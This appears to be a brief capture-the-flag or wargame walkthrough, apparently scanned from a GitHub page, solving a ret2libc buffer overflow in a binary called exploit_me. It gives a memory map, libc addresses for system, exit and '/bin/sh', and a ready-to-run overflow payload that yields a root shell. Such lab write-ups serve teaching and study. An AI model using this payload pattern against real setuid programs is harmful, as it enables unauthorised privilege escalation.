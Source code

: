 ```
         0x8049000  0x804a000     0x1000        0x0 /home/zaz/exploit_me
        0xb7e2b000 0xb7e2c000     0x1000        0x0 
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd2000 0xb7fd5000     0x3000        0x0 
        0xb7fdb000 0xb7fdd000     0x2000        0x0 
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```

address:
system | 0xb7e6b060 | \x60\xb0\xe6\xb7
exit  | 0xb7e5ebe0 | \xe0\xeb\xe5\xb7
libc + /bin/sh | 0xb7e2c000 + 0x160c58 = 0xB7F8CC58 | \x58\xcc\xf8\xb7

so the final payload is
```
./exploit_me `python -c 'print("A" * 140 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7")'`
``` 

and now we have sh as root